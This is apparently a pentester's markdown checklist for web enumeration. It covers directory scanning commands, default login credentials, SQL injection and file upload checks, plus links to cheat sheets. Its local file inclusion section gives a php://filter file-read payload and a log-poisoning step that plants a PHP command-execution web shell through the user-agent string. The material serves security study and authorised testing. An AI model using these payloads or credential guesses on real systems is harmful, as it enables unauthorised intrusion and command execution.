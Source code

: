 # Web Enum Quick Reference  
HTTP and HTTPS 
- [ ] Look for service name and version - searchsploit / google for exploits   
- [ ] Check for a robots.txt page    
- [ ] Scan page with Wappanalyzer  
- [ ] Scan for sub directories and pages - admin pages?, login pages?, file upload?, user input fields?    
- [ ] Admin page - access misconfigs, login?       
- [ ] Log in pages - guess default creds, admin:admin, admin:password   
- [ ] File upload pages - what types of files are accepted?, what checks are being implemented?  
- [ ] User input fields: SQL injection, cross site scripting   
- [ ] Intercept HTTP requests with Burp and examine    	

	Reference: [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)    
    [Wappanalyzer](https://addons.mozilla.org/en-US/firefox/addon/wappalyzer/), [Foxy Proxy](https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/) and [user agent switcher](https://addons.mozilla.org/en-US/firefox/addon/uaswitcher/) Firefox extensions  
**Scan for sub directories and pages** 	
	
	
        nmap http scripts     
        nikto -h http://127.0.0.1:80/     
        dirb http://127.0.0.1/   (default word list: common.txt)     
        gobuster dir -u http://127.0.0.1/ -w /usr/share/seclists/Discovery/Web-Content/big.txt -e -k -s "200,204,301,302,307,403,500" -x "txt,html,php,asp,aspx,jsp" -z    

	
**Login pages** 
	
	Default creds - admin: admin, admin:password, service specific default creds   
	Register a new user  
	Brute force log in  
	SQL injection  

**File Upload** 
Local File Include  
[Local File Inclusion](http://resources.infosecinstitute.com/local-file-inclusion-code-execution/#gref)   
[Guide to LFI](http://www.securityidiots.com/Web-Pentest/LFI/guide-to-lfi.html)    
	
	
	/etc/passwd, etc.
	can you include a remote file?
	?test=php://filter/convert.base64-encode/resource=/filepath      -> base64 encode /decode  
Log Poisoning 
	open: /log/apache2/access.log 
	send payload as user agent string: <?php system($_GET['cmd']); ?>    
	/log/apache2/access.log&cmd=id    

	
[SQL Injection Cheatsheet](https://github.com/codingo/OSCP-2/blob/master/Documents/SQL%20Injection%20Cheatsheet.md) 
	 
 
	
	
	
Resources: 
[Bypassing File Upload Restrictions ](http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html)      
[Web vulnerabilities to gain access to the system - paper](https://www.exploit-db.com/papers/13017/)     

Basic SQLi 
http://www.securityidiots.com/Web-Pentest/SQL-Injection/Part-1-Basic-of-SQL-for-SQLi.html 
http://www.securityidiots.com/Web-Pentest/SQL-Injection/Part-2-Basic-of-SQL-for-SQLi.html 
http://www.securityidiots.com/Web-Pentest/SQL-Injection/Part-3-Basic-of-SQL-for-SQLi.html 
http://www.sqlinjection.net/login/
